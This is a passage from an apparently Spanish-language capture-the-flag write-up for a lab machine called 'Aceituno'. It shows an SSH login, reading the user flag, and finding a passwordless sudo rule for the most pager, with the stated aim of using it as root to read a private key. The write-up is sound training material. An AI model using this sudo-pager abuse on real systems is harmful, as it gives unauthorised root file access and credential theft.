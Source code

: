 Probémoslo:
```bash
ssh aceituno@192.168.1.220
aceituno@192.168.1.220's password: 
Linux Aceituno 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64
...
...
Last login: Tue Apr  1 22:24:36 2025
aceituno@Aceituno:~$
```

Genial, estamos dentro y aquí podremos encontrar la flag del usuario:
```bash
aceituno@Aceituno:~$ ls
user.txt
aceituno@Aceituno:~$ cat user.txt
...
```

<br>

<h2 id="most">Escalando Privilegios con Binario most</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
aceituno@Aceituno:~$ sudo -l
Matching Defaults entries for aceituno on Aceituno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aceituno may run the following commands on Aceituno:
    (root) NOPASSWD: /usr/bin/most
```
Podemos usar el **binario most**, pero desconozco este binario.

| **Binario most** |
|:-----------:|
| *most es un pager de línea de comandos en Linux y Unix, similar a more o less, que se usa para ver archivos de texto de forma paginada en la terminal. A diferencia de less, puede dividir la pantalla en varias secciones para visualizar diferentes partes de un archivo al mismo tiempo. Soporta colores y resaltado de sintaxis en algunos casos.* |

<br>

Entonces, podemos usarlo para ver archivos y cómo lo podemos usar como **Root**, quizá podamos ver si tiene una llave privada para poder robarla.

Ejecutémoslo para ver qué nos dice:
```bash
aceituno@Aceituno:~$ sudo /usr/bin/most
MOST version 5.0.0 (S-Lang version 2.3.3)
 *Note: This executable was compiled against S-Lang 2.3.2
Usage:
most [-1Cbcdkstvw] [+/string] [+line number] [+s] [+d] file...
 where: -1:  assume VT100 terminal. (VMS only)
        -b:  Startup in binary mode.
        -C:  disable color support
...
```
